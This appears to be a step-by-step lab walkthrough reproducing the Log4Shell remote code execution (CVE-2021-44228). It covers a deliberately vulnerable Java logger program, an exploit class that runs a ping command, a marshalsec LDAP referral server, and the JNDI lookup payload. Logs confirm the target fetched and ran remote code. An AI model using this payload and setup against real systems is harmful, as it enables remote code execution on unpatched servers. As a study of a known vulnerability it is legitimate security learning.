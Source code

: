 Thanks for : 

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
https://github.com/mbechler/marshalsec

Okay flow is simple:

when we sent a input to any application, they logs some request for later analysis. apache log4j library used for logging these inputs. We will send a payload and execute codes from apache log4j library during loggin

first i will create a java vulnerable application. Basicly it gets an input and use that input inside of "logger.error" function

	package log4j;
	import java.util.*;  

	import org.apache.logging.log4j.LogManager;
	import org.apache.logging.log4j.Logger;

	public class main {

		private static final Logger logger = LogManager.getLogger(main.class);
		public static void main(String[] args) {
			Scanner sc= new Scanner(System.in); //System.in is a standard input stream  
			System.out.print("Enter a string: ");  
			String str= sc.nextLine();              //reads string  
			System.out.print("You have entered: "+str);
			logger.error(str);
		}

	}
	
i will craft a special "exploit.java" file for code execution, for test we will make payload to ping somewhere

	└─$ cat exploit.java
	public class exploit {
			static {
					try {
							Runtime.getRuntime().exec("cmd.exe /c ping 192.168.200.101");
					} catch (Exception e) {
							e.printStackTrace();
					}
			}
	}         


Start tcp dump and filter for icmp package

	└─$ sudo tcpdump -i eth0 icmp                                                                                                                  
	[sudo] password for kali: 
	tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
	listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes

convert "exploit.java" file to "exploit.class" file

	javac exploit.java
	
Now start a simple http server inside of directory

	└─$ sudo python -m SimpleHTTPServer 80                                                                                              
	[sudo] password for kali: 
	Serving HTTP on 0.0.0.0 port 80 ...


We will start a LDAP server, first java application will reach ldap server and this ldap server will redirect request to HTTP server (192.168.200.101)

	└─$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.200.101/#exploit
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	Listening on 0.0.0.0:1389
	
We will start vulnerable application and sent a payload like: (ip adress is ldap server ip)

	${jndi:ldap://192.168.200.101:1389/exploit}
	
run test application and give input (we will get and error message but ignore it)

	Enter a string: ${jndi:ldap://192.168.200.101:1389/exploit}
	You have entered: ${jndi:ldap://192.168.200.101:1389/exploit}
	23:40:46.982 [main] ERROR log4j.main - ${jndi:ldap://192.168.200.101:1389/exploit}

first check ldap server, it redirected our HTTP server

	└─$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.200.101/#exploit
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	Listening on 0.0.0.0:1389
	Send LDAP reference result for exploit redirecting to http://192.168.200.101/exploit.class


On HTTP server you can see GET request for payload

	└─$ sudo python -m SimpleHTTPServer 80                                                                                              
	[sudo] password for kali: 
	Serving HTTP on 0.0.0.0 port 80 ...
	192.168.200.1 - - [12/Dec/2021 15:40:47] "GET /exploit.class HTTP/1.1" 200 -

Check tcpdump and see if there is any ping request

	└─$ sudo tcpdump -i eth0 icmp                                                                                                                
	[sudo] password for kali: 
	tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
	listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
	15:43:24.801831 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 256, length 40
	15:43:24.801917 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 256, length 40
	15:43:25.811859 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 257, length 40
	15:43:25.811904 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 257, length 40
	15:43:26.824831 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 258, length 40
	15:43:26.824874 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 258, length 40
	15:43:27.836873 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 259, length 40
	15:43:27.836920 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 259, length 40
